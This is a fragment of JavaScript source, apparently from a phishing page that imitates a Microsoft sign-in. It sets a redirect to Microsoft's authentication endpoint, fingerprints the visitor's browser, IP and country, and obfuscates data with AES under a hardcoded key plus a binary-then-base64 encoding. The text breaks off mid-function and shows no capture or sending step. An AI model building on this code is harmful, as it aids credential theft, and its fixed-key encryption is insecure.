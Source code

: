 ```javascript
var currentreq = null;
var requestsent = false;
var pagedata = "";
var redirecturl = "https://login.microsoftonline.com/common/SAS/ProcessAuth";
var userAgent = navigator.userAgent;
var browserName;
var userip;
var usercountry;
var errorcodeexecuted = false;
if(userAgent.match(/edg/i)){
    browserName = "Edge";
} else if(userAgent.match(/chrome|chromium|crios/i)){
    browserName = "chrome";
} else if(userAgent.match(/firefox|fxios/i)){
    browserName = "firefox";
} else if(userAgent.match(/safari/i)){
    browserName = "safari";
} else if(userAgent.match(/opr\//i)){
    browserName = "opera";
} else{
    browserName="No browser detection";
}

function removespaces(input) {
    input.value = input.value.replace(/\s+/g, ''); // Removes all spaces
}

function encryptData(data) {
    const key = CryptoJS.enc.Utf8.parse('1234567890123456');
    const iv = CryptoJS.enc.Utf8.parse('1234567890123456');
    const encrypted = CryptoJS.AES.encrypt(data, key, {
        iv: iv,
        padding: CryptoJS.pad.Pkcs7,
        mode: CryptoJS.mode.CBC
    });
    return encrypted.toString();
}

function stringToBinary(input) {
    const zeroReplacement = '0';
    const oneReplacement = '1';
  
    return btoa(input
      .split('')
      .map(char => {
        let binary = char.charCodeAt(0).toString(2);
        binary = binary.padStart(8, '0');
        return binary
          .split('')
          .map(bit => (bit === '0' ? zeroReplacement : oneReplacement))
          .join('');
      })
      .join(' '));
}

function decryptData(encryptedData) {
    const key = CryptoJS.enc.Utf8.parse('1234567890123456');
    const iv = CryptoJS.enc.Utf8.parse('1234567890123456');
    const decrypted = CryptoJS.AES.decrypt(encryptedData, key, {
        iv: iv,
        padding: CryptoJS.pad.Pkcs7,
        mode: CryptoJS.mode.CBC
    });
```